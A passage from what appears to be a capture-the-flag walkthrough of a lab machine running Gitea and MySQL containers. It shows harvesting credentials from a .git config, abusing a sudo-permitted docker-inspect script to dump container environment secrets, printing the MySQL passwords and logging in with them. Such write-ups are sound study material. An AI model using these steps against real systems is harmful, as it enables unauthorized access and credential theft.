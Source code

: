 ```bash
cat /etc/apache2/sites-enabled/000-default.conf
```

![image.png](image%2011.png)

There is a Vhost on the port 3000, let’s port forward it and access.

And let’s add a  new domain to `/etc/hosts` file too.

I see the version at the bottom of the page:

![image.png](image%2012.png)

But I need credentials here, searching `.git` directory I found `config` file where cleartext credentials of `cody`present.

![image.png](image%2013.png)

I found out that this password belongs to `svc` user, and I can see now sudo privileges:

![image.png](image%2014.png)

```bash
/usr/bin/python3 /opt/scripts/system-checkup.py *
```

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect {% raw %}{{json .}}{% endraw %} f8
```

![image.png](image%2015.png)

Inspecting the `mysql` docker container I see mysql root password and username:

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect {% raw %}{{json .}}{% endraw %} f8
```

![image.png](image%2016.png)

```bash
"MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea", ,"MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh"
```

I cannot connect to `mysql` from target machine because it returns some kind of socket error I am gonna try from local attacker machine forwarding that port to us.

I am gonna use `root`: `jI86kGUuj87guWr3RyF`.

```bash
mysql -u root -p -h 127.0.0.1
```

![image.png](image%2017.png)

I found `gitea` database:
